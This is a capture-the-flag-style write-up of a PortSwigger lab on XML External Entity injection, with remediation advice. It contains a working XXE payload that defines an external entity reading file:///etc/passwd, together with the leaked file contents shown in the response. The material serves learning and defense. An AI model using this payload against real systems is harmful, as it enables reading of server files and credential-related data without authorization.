


# XML External Entity (XXE) Injection

**Lab:** Exploiting XXE using external entities to retrieve files (Web Security Academy)

**Level:** Apprentice

---

## Vulnerability Overview

XXE (XML External Entity) injection occurs when an XML parser processes a `DOCTYPE` declaration that defines an external entity - a reference to a resource outside the XML document itself. If the parser resolves external entities (as many do by default), an attacker can use this to read local files, trigger SSRF requests, or cause denial of service.

In this lab, the stock-checking feature sends an XML body that is parsed server-side. By injecting a `DOCTYPE` that defines an external entity pointing to `file:///etc/passwd`, and then referencing that entity within the XML, the attacker causes the server to read the file and include its contents in the response.

---

## Steps to Solve the Lab

1. **Identify the XML endpoint**
   - Browse to a product page and click **Check stock**.

     

   - Intercept the `POST /product/stock` request in Burp and send it to **Repeater**.
   - The request body is XML:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <stockCheck>
       <productId>1</productId>
       <storeId>1</storeId>
     </stockCheck>
     ```

2. **Inject an external entity**
   - Modify the XML to declare an external entity and reference it:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE test [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <stockCheck>
       <productId>&xxe;</productId>
       <storeId>1</storeId>
     </stockCheck>
     ```

3. **Send and read the response**
   - The server's XML parser resolves `&xxe;` by reading `file:///etc/passwd`.
   - The application rejects the (now invalid) product ID, but the error message reflects the resolved entity, leaking the file contents:
     ```
     Invalid product ID: root:x:0:0:root:/root:/bin/bash
     daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
     ...
     ```

     

4. **Result**
   - Successful file read via XXE confirms the vulnerability. The lab status changes to **Solved**.

     

---

## Why This Works

The XML parser processes the `DOCTYPE` declaration and resolves the `SYSTEM` entity:

```
SYSTEM "file:///etc/passwd"
```

This tells the parser to read the file at that path and substitute its contents wherever `&xxe;` appears in the document. The parser has file system access with the web server's OS user privileges. The resulting value is embedded in the XML document and returned in the application's error response.

---

## Remediation

- **Disable external entity and DTD processing in the XML parser** - this is the primary fix:
  ```java
  // Java (DocumentBuilderFactory):
  factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  ```
  ```python
  # Python (lxml) - disable entity resolution and DTD loading together:
  parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)
  ```
- **Use a data format that doesn't support entities** - if XML is not required, switch to JSON for API communication.
- **Validate XML input against a strict schema** - a schema that doesn't allow `DOCTYPE` declarations blocks XXE at the input level.
- **Apply least privilege to the web server process** - limiting filesystem access reduces what an XXE can read.

---

Link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
